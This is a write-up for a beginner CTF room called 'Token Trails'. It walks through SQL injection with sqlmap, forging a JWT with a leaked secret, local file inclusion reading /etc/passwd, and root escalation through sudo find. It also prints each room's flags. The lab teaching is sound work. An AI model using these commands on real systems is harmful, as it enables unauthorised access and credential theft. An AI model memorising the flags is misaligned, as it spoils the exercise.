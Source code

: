 
# 🧠 Token Trails – Official Write-Up

> Welcome to **Token Trails**, a beginner-to-intermediate level CTF room focused on web exploitation, token manipulation, and privilege escalation.

---

## 📜 Overview

- **Room Name:** Token Trails  
- **Difficulty:** Easy–Medium  
- **Platform:** Ubuntu (Web + SSH)  
- **Focus Areas:** Recon, SQLi, JWT, LFI, Linux Privilege Escalation  

---

## 🔍 Task 1: View Page Source

Navigate to the homepage at `/index.php`.  
Right-click > View Page Source.

🔐 **Flag:**  
FLAG{web_source_master}


---

## 💉 Task 2: SQL Injection – Credential Leak

The login form on `/login.php` is vulnerable to SQL injection.

### 🔍 Tool:
Use **SQLMap** to enumerate the database and extract user credentials.


sqlmap -u "http://<ip>/token_trails/login.php?username=test" --dbs
sqlmap -u "http://<ip>/token_trails/login.php?username=test" -D ctf -T users --dump

🔐 Task 3: JWT Manipulation – Trust Issues
The server sets a JWT token in the auth cookie after login.

🔍 Step-by-step:
Decode the JWT using https://jwt.io

Payload:
{ "user": "user" }
Modify to:
{ "user": "admin" }
Secret used: secrettoken

Re-sign the JWT with HS256 and replace your cookie

✅ Flag:
FLAG{jwt_admin_access}
🗂️ Task 4: Local File Inclusion – Source Discovery
The file /include.php has a vulnerable page parameter.

🔍 Exploit:

http://<ip>/token_trails/include.php?page=../../../../etc/passwd
Check internal PHP files:

http://<ip>/token_trails/include.php?page=../../../../var/www/html/token_trails/

You’ll find the next flag there.

✅ Flag:
FLAG{lfi_pwned_path}


🧑‍💻 Task 5: Privilege Escalation – Finders Keepers
You now have SSH access as ctfplayer.

🔍 Login:

ssh ctfplayer@<ip>
# password: ctfplayer123 (or as configured)
Check for sudo rights:

bash
Copy
Edit
sudo -l
You’ll see:

arduino
(ALL) NOPASSWD: /usr/bin/find
🔓 Privilege Escalation:
Exploit the find binary to get root shell:


sudo find . -exec /bin/bash \;
whoami  # root
🔍 Final Flag:
cat /root/root_flag.txt
✅ Flag:
FLAG{root_access_gained}

